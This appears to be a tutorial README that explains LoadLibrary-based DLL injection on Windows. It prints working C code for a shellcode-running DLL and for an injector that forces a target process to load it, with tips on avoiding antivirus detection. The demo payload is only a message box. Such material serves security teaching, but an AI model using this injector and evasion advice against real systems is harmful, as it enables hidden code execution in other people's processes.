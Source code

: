 # DLL Injection (LoadLibrary Technique)

DLL injection is a technique used to inject a dynamic-link library (DLL) into the address space of a running process. This method allows the injected DLL to execute code within the context of the target process, granting it access to the process's memory, resources, and functionalities.

The module contains two main source files:
- `injectme.c`: This contains the source code for the malicious DLL
 
- `injector.c`: This contains the code for the program which injects our malicious DLL into the remote process.

## The DLL Source

First, we have our standard `DllMain` which contains the following code:

```c
BOOL WINAPI DllMain( HINSTANCE hinstDLL, DWORD fdwReason, LPVOID lpReserved ) {
    switch ( fdwReason ) {
        case DLL_PROCESS_ATTACH:
            int result = injectme(); 
            break;
        default:
            break;
        }
    return TRUE;
}
```

The `DllMain` is simple: whenever the DLL is loaded into the process's memory (`DLL_PROCESS_ATTACH`) it calls the `injectme()` function which is responsible for running our Message Box payload. 

The `injectme()` function has the following code:
```c
extern __declspec(dllexport) int injectme(void) {
    void * pAddress;
    DWORD oldprotect = 0;
    pAddress = VirtualAlloc(0, payload_len, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);
    RtlMoveMemory(pAddress, payload, payload_len);
    BOOL retval = VirtualProtect(pAddress, payload_len, PAGE_EXECUTE_READ, &oldprotect);
    HANDLE hThread = CreateThread(0, 0, (LPTHREAD_START_ROUTINE) pAddress, 0, 0, 0);
    int _result = WaitForSingleObject(hThread, -1);
    CloseHandle(hThread);
    return 0;
}
```
The `injectme()` function is where the magic happens. We use the `extern __declspec(dllexport)` declaration to indicate that the DLL exports this function. 

> Since the DLL will be loaded in the process's address space itself, we can use `VirtualAlloc()` and `CreateThread()` instead of `VirtualAllocEx()` and `CreateRemoteThread()`. 

We begin with allocating memory for our payload with `VirtualAlloc()`, like we did with `VirtualAllocEx()` during **Shellcode Injection**. However, one noticable difference is that: the permission of the memory region has been set to `PAGE_READWRITE` because we need to write our payload to it. 

> In case of Shellcode Injection, the call to `WriteProcessMemory()` makes the region temporarily writeable for us and when the write operation is done, it restores the memory protection to its original state, but in this case, we gotta do this on our own and make sure the memory region is writeable. [See: [this Microsoft DevBlog](https://devblogs.microsoft.com/oldnewthing/20181206-00/?p=100415)]

Once the memory has been allocated, we use `RtlMoveMemory()` to copy the payload over to the allocated memory region, and then proceed to change the memory protection to `PAGE_EXECUTE_READ` using `VirtualProtect()`. 

> Note that we could have used `VirtualAlloc()` with `PAGE_EXECUTE_READWRITE` in the first place and skipped calling `VirtualProtect()` altogether. However, having `RWX` permission on a memory region sets off major red flags for AV engines.

Finally, we use `CreateThread()` and set the thread function to run our payload and wait till it finishes execution with `WaitForSingleObject()` just like in the **Shellcode Injection** example. Once the Thread finishes execution, we close the thread handle and return the back to the `DllMain` function. 

This concludes the DLL source.

## The Injector Source

Now comes the injector, which loads the malicious DLL into the target process's memory. The `main()` function looks familiar as such:

```
int main() {
	DWORD pid = find_pid(TARGET);
	printf("[i] %s: %d\n", TARGET, pid);
    int result = inject_dll_ll(pid);
    printf("[i] Injection Complete!\n");
    return 0;
}
```

We find the Process ID for the target process using `find_pid()` and pass it to the `inject_dll_ll()` function where the injection takes place. The `inject_dll_dll()` function looks like this:

```c
int inject_dll_ll(DWORD pid) {
	HANDLE hProcess = OpenProcess(PROCESS_ALL_ACCESS, FALSE, pid);
    HANDLE hModule = GetModuleHandle("Kernel32.dll");
    PTHREAD_START_ROUTINE pLoadLibrary = (PTHREAD_START_ROUTINE) GetProcAddress(hModule, "LoadLibraryA");
    CloseHandle(hModule);
    PVOID pAddr = VirtualAllocEx(hProcess, NULL, sizeof(DLL_PATH), MEM_COMMIT, PAGE_READWRITE);
    BOOL result = WriteProcessMemory(hProcess, pAddr, (LPVOID)DLL_PATH, sizeof(DLL_PATH),  NULL);
    HANDLE hThread = CreateRemoteThread(hProcess, NULL, 0, pLoadLibrary, pAddr, 0, NULL);
    int _result =  WaitForSingleObject(hThread, -1);
    CloseHandle(hThread);
    CloseHandle(hProcess);
    return 0;
}
```
> Here, the `DLL_PATH` macro expands to the full path of the malicious DLL on the system

For injecting our DLL into the target process, we would use the `LoadLibraryA()` function from `kernel32.dll` to load our DLL into the target process's virtual memory. This method, however has certain drawbacks:
- It registers the DLL with the process so it might set off some flags to alert defenders
- If a DLL has already been loaded once with `LoadLibraryA()`, it would not trigger execution on subsequent attempts. 

With that in mind, lets walk through the code. First, we open a open a handle to the target process(`hProcess`). Then, we dynamically resolve the address of `LoadLibraryA` function from `kernel32.dll` as such:

- First, we use `GetModuleHandle()` to retrieve a module handle for the `kernel32.dll`, because thats where `LoadLibraryA()` function is defined.
- Then, we use this handle to the module(`hModule`) along with `GetProcAddress()` to fetch the address of the `LoadLibraryA()` function.
- Once we have the address to `LoadLibraryA()`, we can go ahead and free the module handle(`hModule`)

Next up, we need to allocate memory with `VirtualAllocEx()` in the remote process's virtual address space to store the full location of the DLL(`DLL_PATH`). This time around, we need to set the permission for the memory region as `PAGE_READWRITE` because we need to write our Dll's path (`DLL_PATH`) to it but there is no execution happening in the memory region.

Once the memory has been allocated, we use `WriteProcessMemory()` to copy the full DLL path into the process's memory. Finally, we call `CreateRemoteThread()`, but this time, we pass the previously acquired address of `LoadLibraryA()`(`pLoadLibrary`) as the thread function and pass the address of memory location in the remote process where the full path to the DLL is stored(`pAddr`) as the variable to the thread function, and start the remote thread. 

This essentially forces the remote process to execute the following instruction:

```c
LoadLibraryA("C:\\Path\\To\\injectme.dll")
```

As soon as the instruction is executed and the DLL is attached to the process, the payload is executed. We skip the wait stage for the thread by setting the timeout interval to `0` in `WaitForSingleObject()` and return as soon as exectuion finishes.

When compiled and run, we should have our `Hello World!` message box popup from the target process.

